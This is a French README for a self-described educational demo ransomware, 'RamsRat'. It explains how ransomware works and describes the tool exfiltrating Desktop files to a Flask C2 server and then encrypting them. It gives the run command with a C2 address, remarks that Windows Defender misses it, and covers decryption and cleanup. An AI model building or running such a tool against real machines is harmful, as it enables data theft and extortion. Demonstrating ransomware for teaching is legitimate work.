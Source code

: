 # RamsRat-Ransomware
Un faux Ransomware pour comprendre exactement comment il fonctionne.

**DISCLAIMER   : Je ne suis pas responsable de tout ce que vous faites avec ce script. Je mets à disposition ce script et mes pseudos connaissances dans l'unique but d'instruire et non pas détruire.**

English-Version

Pour comprendre comment fonctionne un ransomware, il est important de noter que ce qui suit est une description générale. Les ransomware peuvent varier considérablement en fonction des spécificités de chaque virus.

En général, un ransomware :

- Est exécuté par l'hôte ou l'attaquant sur la machine cible.
- Crée une clé (souvent de 32 bits, ce qui peut prendre beaucoup de temps à casser).
- Envoie les fichiers à un serveur de commande et contrôle (C2).
- Crypte les fichiers avec la clé.
- Demande une rançon.

## Ransomware

Un ransomware est un script, un logiciel qui exécute du code pour chiffrer l'intégralité des données personnelles. Il peut ou non extraire ces données vers un serveur distant, afin que, même si vous payez la rançon, les attaquants puissent toujours les utiliser.

Ensuite, il vous est demandé de payer en échange de la clé de décryptage (et parfois d'un déchiffreur).

La finalité de l'histoire dépend uniquement de la bonne foi de la personne qui a chiffré votre ordinateur (lol).

## ServeurC2

Un serveur C2 (commande et contrôle) sert principalement à gérer les victimes de vos payloads, un peu comme les sessions dans Metasploit.

Ici, il s'agit simplement d'un script Python qui permet de recevoir des fichiers via un lien.


## Prérequis Build

- Un client Windows (vous pouvez utiliser votre propre Windows, le script est inoffensif, ou utiliser une machine virtuelle).
- Visual Studio Community
  
## Prérequis Started

- Un client Windows (vous pouvez utiliser votre propre Windows, le script est inoffensif, ou utiliser une machine virtuelle).
- Python 3 (sur Windows ou Linux, peu importe).
- .NET.

## Fonctionnement


**<!> Chiffre uniquement les fichiers du Bureau, pas de dossiers ou d'autres emplacements.**

- Exécution par l'utilisateur.
- Copie les fichiers du Bureau vers : `Bureau/DecryptFiles`.
- Envoie les fichiers du Bureau vers le serveur C2.
- Change le fond d'écran.
- Exécute un `readme.txt`.
- Chiffre les fichiers du Bureau avec une clé de 32 bits.

À la fin, on se retrouve avec un Bureau complètement chiffré.

Les fichiers copiés sont dans `Bureau/DecryptFiles`.

Les fichiers sur le serveur de contrôle (C2) sont décryptés et bien téléchargés.

Étant une démonstration, aucune persistance ni corruption de données ne sera effectuée.

Enfin, un déchiffreur `Decryptor.exe` et la clé de 32 bits vous seront nécessaires si vous voulez déchiffrer les données sur le Bureau.

**Encore une fois, il y a une copie de ces données dans `Bureau/DecryptFiles`, ce qui ne vous oblige en aucun cas à déchiffrer les fichiers du Bureau. Vous pouvez simplement les copier.**



## Get Started

Comme cité plus tôt, ce script est théoriquement inoffensif. Néanmoins, il peut être aisément modifié pour causer des dommages. N'utilisez que le script provenant de CE GITHUB.

Le serveur C2 est indépendant du ransomware. Il peut être distant ou local, peu importe, sur une autre machine ou sur la machine qui va être chiffrée.

### Installation du serveur C2

- Installation des dépendances :
  - Windows : 
    - Python3
    ```
    pip install Flask
    ```
  - Linux
    ```
    sudo apt install python3
    pip install Flask
    ```

- Lancez le serveur c2. **(Si c'est sur le windows ne mettez pas le script sur le bureau)**

  ![plot](./img/serverc2.png)

### Execution du Ransomware

Defender ?

![plot](./img/defenderanalyse.gif)


Defender se fait avoir surement car on vient de la build, néanmois, je suis déçu qu'il ne detecte même pas l'encryption de fichier sur votre pc.

- Après avoir build ou téléchargé la release, on se retrouve avec un dossier `Ramsom`.
- On le place n'importe ou sur la machine qu'on veut "chifrée".

- On lance un cmd pour préciser le serveurC2 et le port. Tapez `cmd` en haut de la barre d'adresse.
  ![plot](./img/cmdexec.png)


- Enfin on execute la commande 
    ``RamsRat.exe ip-server-c2 port-server-c2`` == 
    ``RamsRat.exe 10.0.24.55 5000``

- A la fin de l'éxecution : 
  - Le bureau est chiffré et le fond d'écran changé :
  
    ![plot](./img/Execution.gif)

  - Le readme s'est ouvert avec des instructions (Fake):
  
    ![plot](./img/encryptdesk.png)

  - Les fichiers ont été envoyés au C2 et sont lisibles : 

    ![plot](./img/filesc2.png)

  

- On retrouve quand meme nos fichiers copiés dans `Bureau/DecryptFiles`. Ainsi que la clef de decryptage :

    ![plot](./img/decryptfiles.png)

  
### Decryption des fichiers

Avec le Ransomware je fournis le Decryptor.exe.

On lui fournis le path du dossier encrypter ainsi que la clef. Ici c'est simple les deux sont dans le bureau.

Il faut l'utiliser avec cmd et la commande.


```
Decryptor.exe <encryptedFolderPath> <keyFilePath>

Decryptor.exe C:\Users\ratus\Desktop C:\Users\ratus\Desktop\DESKTOP-S3D0A9K.encryptionkey.key
```

![plot](./img/decryption.gif)


### Nettoyage 

- Avec decryptor : 
  - Décrypter vos données
  - Supprimer tout les fichiers .ratus
  - Supprimer le dossier `DecryptFiles`
  - Supprimer le readme
  - Supprimer le projet (optionnel)
- Sans decryptor :
  - Copier les fichiers de `DecryptFiles` sur le Bureau
  - Supprimer les .ratus
  - Supprimer le readme
  - Supprimer `DecryptFiles`
  - Supprimer le projet (optionnel)
- Serveurc2 :
  - Supprimer le script python
  - `pip unistall Flask`
